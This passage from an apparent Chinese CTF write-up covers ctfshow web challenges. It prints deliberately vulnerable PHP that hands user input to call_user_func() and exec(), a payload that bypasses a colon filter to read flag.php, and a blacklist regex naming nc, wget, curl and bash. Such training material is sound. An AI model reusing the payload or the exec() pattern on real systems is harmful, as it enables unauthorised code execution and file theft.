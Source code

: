 ```php
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

这下子把 `:` 冒号给禁用了。

用call_user_func()来调用一个类里面的方法

```
call_user_func(array($classname, 'say_hello'));
这时候会调用 classname中的 say_hello方法
```

payload:

```php
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```

## web139

```php
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```
